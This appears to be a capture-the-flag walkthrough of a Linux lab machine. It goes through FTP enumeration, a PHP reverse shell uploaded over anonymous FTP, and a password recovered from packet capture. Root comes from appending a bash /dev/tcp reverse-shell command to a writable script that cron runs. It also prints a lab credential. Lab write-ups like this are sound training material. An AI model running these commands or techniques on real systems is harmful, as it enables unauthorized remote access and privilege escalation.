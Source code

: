 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](cybersecurity/images/Pasted%2520image%252020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](cybersecurity/images/Pasted%2520image%252020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](cybersecurity/images/Pasted%2520image%252020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](cybersecurity/images/Pasted%2520image%252020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](cybersecurity/images/Pasted%2520image%252020241023165422.png)
![](cybersecurity/images/Pasted%2520image%252020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](cybersecurity/images/Pasted%2520image%252020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](cybersecurity/images/Pasted%2520image%252020241023165753.png)
## SOURCE CODE

![](cybersecurity/images/Pasted%2520image%252020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](cybersecurity/images/Pasted%2520image%252020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](cybersecurity/images/Pasted%2520image%252020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](cybersecurity/images/Pasted%2520image%252020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](cybersecurity/images/Pasted%2520image%252020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](cybersecurity/images/Pasted%2520image%252020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](cybersecurity/images/Pasted%2520image%252020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](cybersecurity/images/Pasted%2520image%252020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](cybersecurity/images/Pasted%2520image%252020241023180944.png)
![](cybersecurity/images/Pasted%2520image%252020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](cybersecurity/images/Pasted%2520image%252020241023182634.png)

If we follow the stream, we are able to see this:

![](cybersecurity/images/Pasted%2520image%252020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](cybersecurity/images/Pasted%2520image%252020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](cybersecurity/images/Pasted%2520image%252020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](cybersecurity/images/Pasted%2520image%252020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](cybersecurity/images/Pasted%2520image%252020241023184044.png)

And just like that, we finished the machine:

![](cybersecurity/images/Pasted%2520image%252020241023184153.png)

Gg!

